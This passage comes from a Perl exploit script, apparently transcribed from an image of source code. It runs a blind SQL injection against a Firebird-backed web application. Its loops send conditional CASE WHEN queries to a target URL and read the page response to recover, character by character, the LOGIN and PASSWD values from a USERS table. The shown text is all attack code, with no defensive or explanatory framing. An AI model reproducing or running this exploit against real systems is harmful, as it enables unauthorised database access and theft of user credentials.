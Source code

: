 ```

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95 && $i!=108){
                print chr($i);
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

#extract data from USERS ( LOGIN,PASSWD)

$fst="case when(1=(select first 1 1 from USERS where LOGIN LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=65;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-65){
        last;
}else{
$b=0;
}
}
print "\n";

$fst="case when(1=(select first 1 1 from USERS where PASSWD LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=48;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-48){
```